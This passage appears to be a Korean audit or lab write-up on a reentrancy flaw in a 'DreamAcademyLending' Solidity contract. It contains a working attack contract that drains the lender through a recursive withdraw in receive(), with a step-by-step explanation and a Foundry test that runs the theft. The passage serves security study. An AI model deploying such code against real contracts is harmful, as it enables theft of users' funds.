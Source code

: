     ```java
    contract Reentrancy {
      DreamOracle dreamOracle;
      DreamAcademyLending lending;
      address owner;
      constructor(DreamAcademyLending _lending){
          lending = _lending;
          owner = msg.sender;
      }
    
      function attack() external payable {
        require(msg.value >= 100 ether, "msg.value more than 1 ether");
        (bool success, )= address(lending).call{value: msg.value}(abi.encodeWithSelector(lending.deposit.selector, address(0x0), msg.value));
        (bool success2, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), msg.value));
      }
    
    	function transfer() public payable {
        (bool success,) = msg.sender.call{value: address(this).balance}("");
      }
    
      receive() external payable {
    	  uint targetBalance = address(lending).balance;
    	  if(targetBalance > 100 ether){
          (bool success3, )= address(lending).call(abi.encodeWithSelector(lending.withdraw.selector, address(0x0), 100 ether));
    	  }
      }
    }
    ```
    
    - 위와 같이 reentrancy를 유발하는 컨트랙트를 작성할 수 있다.
    - 공격자는 임의의 자산을 예치하고, 예치한 자산의 일부를 withdraw를 호출하여 돌려받는다.
    - receive 함수에 다시 withdraw를 호출하는 구문을 넣어 withdraw로 이더리움을 돌려받는 데에 성공하면 다시한번 withdraw를 호출한다.
    - Lending 컨트랙트 내에서 아직 vault의 값이 업데이트 되지 않았으므로 모든 조건을 통과하고 call with value를 수행한다.
    - 모든 자금을 탈취하면 attack 함수의 동작이 종료되고, reenterancy 컨트랙트는 lending 컨트랙트의 모든 자산을 갖게 된다.
    - 이렇게 탈취한 자산은 공격자가 가져갈 수 있다.
    
    ```java
    function testReentrancy() external {
      reentrancy = new Reentrancy(lending);
      vm.deal(user1, 1000 ether);
      supplySmallEtherDepositUser2();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
      vm.startPrank(user1);
        (bool success1,) = address(reentrancy).call{value: 100 ether}(abi.encodeWithSelector(reentrancy.attack.selector));
        (bool success3,) = address(reentrancy).call{value: 0 ether}(abi.encodeWithSelector(reentrancy.transfer.selector));
      vm.stopPrank();
      console.log("user1 balance", user1.balance / 1 ether);
      console.log("reenter balance", address(reentrancy).balance / 1 ether);
      console.log("lending balance", address(lending).balance / 1 ether);
    }
    ```
    